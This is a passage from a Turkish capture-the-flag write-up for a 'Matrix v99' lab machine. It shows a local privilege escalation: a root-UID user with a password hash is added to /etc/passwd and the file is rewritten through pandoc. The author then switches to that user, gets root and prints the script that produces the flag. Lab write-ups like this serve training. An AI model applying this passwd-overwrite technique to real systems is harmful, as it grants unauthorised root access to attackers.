 ````console
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
architect:x:1000:1000:architect:/home/architect:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
ntp:x:112:115::/nonexistent:/usr/sbin/nologin
r3tr0:$1$J74RJRfo$abfoN4hXndNyoRBcNfpV/0:0:0:r3tr0:/root:/bin/bash
````

````console
architect@matrixV99:~$ cp /etc/passwd /tmp
architect@matrixV99:~$ cd /tmp
architect@matrixV99:/tmp$ nano passwd_yeni
architect@matrixV99:/tmp$ cat /tmp/passwd_yeni | /usr/bin/pandoc -t plain -o /etc/passwd
architect@matrixV99:/tmp$ tail -n 1 /etc/passwd
r3tr0:1J74RJRfo$abfoN4hXndNyoRBcNfpV/0:0:0:r3tr0:/root:/bin/bash
````

````
architect@matrixV99:/tmp$ su r3tr0
Password: 
root@matrixV99:/tmp# whoami
root
````

Root olduk fakat root bayrağı başka bir dizinde. Biraz makinede araştırma yaptıktan sonra /etc/-- -root.py dosyasını buldum.


````console
root@matrixV99:/home/architect# find / -name "*root*" 2>/dev/null
/etc/-- -root.py
````

````console
root@matrixV99:/home/architect# cat '/etc/-- -root.py'
from progress.bar import FillingSquaresBar
import time

print('''
$ > REQ> Source: Matrix v.99; Destination: Real world;
$ > EXIT GRANTED;
$ > Exiting Matrix... Entering real world... Please wait...
''')
key = 82
flag = (9087 ^ 75 ^ 90 ^ 175 ^ 52 * 13 * 19 - 18 * 2 + key)

bar = FillingSquaresBar(' LOADING...', max=24)
for i in range(24):
    time.sleep(1)
    # Do some work
    bar.next()
bar.finish()
print('\nFlag{R3ALw0r1D'+str(flag)+'Ez09WExit}') 
print("\nMorpheus: Welcome to the real world... Now... Let's begin your real training...\n")
````
